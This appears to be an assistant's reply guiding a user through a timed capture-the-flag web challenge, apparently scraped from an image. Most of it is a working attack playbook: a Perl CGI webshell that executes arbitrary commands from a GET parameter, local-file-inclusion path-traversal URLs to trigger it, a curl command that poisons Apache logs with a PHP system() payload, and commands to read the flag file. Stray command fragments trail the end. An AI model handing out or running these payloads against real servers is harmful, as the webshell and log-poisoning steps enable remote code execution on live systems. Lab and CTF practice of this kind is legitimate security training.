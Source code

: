 Yes, your plan is solid. Here’s how you can proceed **quickly** within the 30-minute CTF:

---

### ✅ **Objective: Use Webshell via LFI to Get the Flag**

If **RCE is not directly exposed** but **LFI is available**, **you can still achieve RCE** by using **Log Poisoning** or **webshell planting**, then trigger it via LFI.

---

## 💥 PLAN:

### 1. **If File Upload + RCE (webshell) is Available**

- Upload a simple **Perl, PHP, or Bash** webshell (depending on what the server accepts).

#### Example: Perl Webshell (backdoor.pl)

```perl
#!/usr/bin/perl
use CGI;
print "Content-type: text/html\n\n";
my $q = new CGI;
my $cmd = $q->param('cmd');
print "<pre>";
print `$cmd`;
print "</pre>";
```

- Upload this and take note of its location (e.g., `/uploads/backdoor.pl`).

---

### 2. **Use LFI to Trigger the Webshell**

If you **can't directly access** the uploaded shell due to routing or path restrictions, **trigger it using LFI**.

#### Example:

```
http://hacksmith.webhop.me:5565/?page=../../../../../../var/www/html/uploads/backdoor.pl&cmd=cat /home/ctf/flag.txt
```

> You’re using the LFI endpoint to **execute the uploaded shell** and **pass commands via GET param**.

---

### 3. **If Webshell Doesn’t Work, Use LFI for Log Poisoning**

If file upload is not working or blocked, try **log poisoning**:

- Inject your payload into access logs:

```bash
curl "http://hacksmith.webhop.me:5565" -A "<?php system($_GET['cmd']); ?>"
```

- Then access via LFI:

```bash
http://hacksmith.webhop.me:5565/?page=../../../../var/log/apache2/access.log&cmd=cat /home/ctf/flag.txt
```

---

### 4. **Confirm with `cat` or `ls` Commands**

Try common flag locations:

```bash
cmd=ls /home/ctf/
cmd=cat /home/ctf/flag.txt
```

---

## 🏁 Final Objective: Get Output Like:

```
FLAG: P3RL_B3AST
```

Take screenshot & save it for submission.

---

cmd=ls+/

grep -Ri "P3RL_B3AST" / 2>/dev/null



